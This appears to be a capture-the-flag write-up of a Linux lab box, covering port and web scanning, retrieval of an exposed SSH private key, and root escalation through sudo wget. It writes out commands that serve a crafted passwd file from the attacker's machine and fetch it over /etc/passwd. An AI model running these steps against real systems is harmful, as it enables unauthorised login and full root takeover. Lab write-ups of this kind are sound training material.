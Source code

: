 #Linux #Wget

**NMAP Scan**

```sh
  nmap -sV -sC -p- 10.10.207.235
  ```

- To see the versions of the services running (**-sV**)
- To perform a script scan using the default set of scripts (**-sC**)
- To scan all ports from 1 through 65535 (**-p-**)

OPEN PORTS

* 22/tcp ssh
* 80/tcp http

![image](https://user-images.githubusercontent.com/99097743/171080626-c28a88e2-45bf-4be1-a7f1-6d927ee7b2b8.png)


Interesting info: A person named Jessie is mentioned in the website source code:

![image](https://user-images.githubusercontent.com/99097743/171075119-d4d404da-8220-4061-ad97-5bd0af1dd0eb.png)

Let's try **Nikto** for vulnerability scanning. 

Nikto is an open source web server and web application scanner. Nikto can perform comprehensive tests against web servers for multiple security threats, including over 6700 potentially dangerous files/programs. Nikto can also perform checks for outdated web servers software, and version-specific problems. Here are some of the commonly used commands:

![image](https://user-images.githubusercontent.com/99097743/171077871-a03baaac-6541-4648-b22a-aa9856cbcfa1.png)

Nikto results reveal that the Apache server is outdated -v 2.4.18 

![image](https://user-images.githubusercontent.com/99097743/171078750-8a26be16-d1db-492d-bf75-f2c04eb39023.png)

A **searchsploit** analysis confirms an existing vulnerability on the Apache server. 

![image](https://user-images.githubusercontent.com/99097743/171079027-f7f5dd4c-4afe-4b23-a06c-72b79222cb65.png)

Details of the CARPE (DIEM): CVE-2019-0211 Apache Root Privilege Escalation are summarized in the following link:

https://cfreal.github.io/carpe-diem-cve-2019-0211-apache-local-root.html

**Gobuster** search suggests a hidden directory **/sitemap** (Status 301)

![image](https://user-images.githubusercontent.com/99097743/171080870-11321b68-cb53-4930-8421-0a595b952689.png)

A further **Gobuster** search on `http://10.10.207.235/sitemap` suggests a hidden **/.ssh** directory hosting a private key! 

![image](https://user-images.githubusercontent.com/99097743/171082095-e325cb85-02a7-4028-a57d-dc2dbafa9d4d.png)

What we need to do now are:

1) Change file permissions for the id_rsa as `chmod 600 jessie_id_rsa`
2) Login ssh using the private key: `ssh -i path/to/key_file username@remote_host`

We can assume that the private keys belongs to Jessie -- This name was mentioned in a comment line in website source code (see above)

![image](https://user-images.githubusercontent.com/99097743/171085363-81619d9f-110a-4f47-b960-14ecb9ad9df5.png)

We now have the user flag captured, let's explore the vulnerabilities for privilege escalation, let's try `sudo -l` to see the allowed commands

![image](https://user-images.githubusercontent.com/99097743/171085848-4e010d8f-f21b-457f-be9c-ed7303f629d3.png)

It seems that we can use GTFOBins Wget vulnerability as explained here: https://gtfobins.github.io/gtfobins/wget/

![image](https://user-images.githubusercontent.com/99097743/171088818-d8ec1a56-82cc-4aaf-a0c9-ee43117274e3.png)

Here are steps that can be followed:

1) Copy `etc/passwd` in the local host, generate a password for the root account, and include it as password hash in passwd:

![image](https://user-images.githubusercontent.com/99097743/171087622-38672abd-b16e-44e2-a833-1db586e0030a.png)

![image](https://user-images.githubusercontent.com/99097743/171089509-76761a52-80ba-430a-b7df-d7d6b6e8d64a.png)


2) Open an HTTP server on the local host: `sudo python3 -m http.server 80`

3) Transfer the passwd to target machine: `sudo wget http://10.18.123.93/passwd -O /etc/passwd`

![image](https://user-images.githubusercontent.com/99097743/171089684-54d7a62a-9d2a-42b3-b205-8b1655981162.png)

4) Elevate to root: `su root` -- Password above

